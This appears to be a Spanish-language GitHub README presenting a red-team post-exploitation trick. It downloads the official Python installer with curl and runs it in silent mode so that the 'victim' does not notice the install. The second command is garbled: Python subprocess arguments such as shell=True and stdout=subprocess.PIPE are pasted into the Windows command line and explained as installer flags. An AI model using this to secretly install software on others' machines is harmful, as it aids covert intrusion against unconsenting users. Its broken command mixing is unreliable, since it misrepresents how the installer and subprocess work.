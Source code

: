 # tecnicas red team (post explotación)
                                             
![Art Love GIF](https://media2.giphy.com/media/v1.Y2lkPTc5MGI3NjExMjdrdWl6dTg3eHMwcnhxZjhpM3VmaTJsdzhrbzZlaGljaW4ydmd4MCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/VTRUeNCbZECfhV9o7E/giphy.gif)

Instala Python sin que tu "víctima" se dé cuenta.

# ¿Como funciona?
### Explicación del Comando

Este comando se divide en dos partes principales: **descarga** e **instalación** de Python. A continuación, se explica cada paso:

#### **1. Descarga el instalador de Python**

``curl https://www.python.org/ftp/python/3.11.4/python-3.11.4-amd64.exe --output python-3.11.4-amd64.exe``

* Utiliza curl para descargar la versión 3.11.4 de Python desde el sitio oficial.
* Guarda el archivo como python-3.11.4-amd64.exe en el directorio actual.

#### **2. Ejecuta el instalador de Python en modo silencioso**

``python-3.11.4-amd64.exe /quiet InstallAllUsers=1 PrependPath=1 Include_test=0, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE``

* /quiet: Instala Python sin mostrar ventanas ni requerir interacción.
* InstallAllUsers=1: Lo instala para todos los usuarios del sistema.
* PrependPath=1: Añade Python al PATH automáticamente.
* Include_test=0: Excluye archivos de prueba.
* shell=True: indica que se ejecutara en la consola de comandos
* stdout=subprocess.PIPE: Redirige la salida estándar (stdout) del comando ejecutado para que sea capturada en Python.
* stderr=subprocess.PIPE: Captura los errores del comando.
* stdin=subprocess.PIPE:  Permite enviar datos al comando mientras se ejecuta.
